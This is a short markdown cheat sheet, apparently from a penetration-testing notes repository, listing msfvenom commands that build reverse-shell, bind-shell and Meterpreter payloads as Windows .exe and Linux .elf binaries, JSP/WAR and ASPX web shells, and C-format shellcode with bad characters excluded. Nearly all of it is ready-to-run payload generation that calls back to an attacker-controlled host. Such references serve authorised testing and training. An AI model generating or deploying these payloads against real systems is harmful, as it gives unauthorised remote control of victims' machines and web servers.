 # MSFVENOM
## Windows Binary (.exe)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

##### Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=$LHOST LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### 64 Bit (x64)

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

## Linux Binary (.elf)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

## Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

### As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

## Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

## tricks
### make executable binary with input shellcode
```bash
cat payload.bin | msfvenom -p - -f exe -a x64 --platform win -o output.exe
```
